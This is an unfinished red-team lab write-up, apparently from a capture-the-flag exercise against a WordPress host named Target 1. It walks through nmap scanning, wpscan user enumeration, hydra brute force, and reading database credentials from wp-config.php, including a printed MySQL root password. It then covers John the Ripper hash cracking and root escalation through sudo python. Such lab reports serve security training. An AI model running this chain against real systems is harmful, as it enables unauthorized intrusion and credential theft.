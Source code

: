 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
  # TODO: Insert scan output PHOTO nmap
```

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password
  - User Enumeration
  - User Privelege Escalation

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
 #### Photo wpscan
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`
#### Photo flag 1
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls' found flag2.txt
 
  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`
 #### photo myswl pword
 
    - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
#### Photo flags
  -Additionally, hashes for each user was found, and privelege escalation was exploited.
#### Photo hashes
    - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
    - From there, I connected to Steven's account and open a python shell with root privelege
      - ssh steven@192.168.1.110
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
#### Last photo
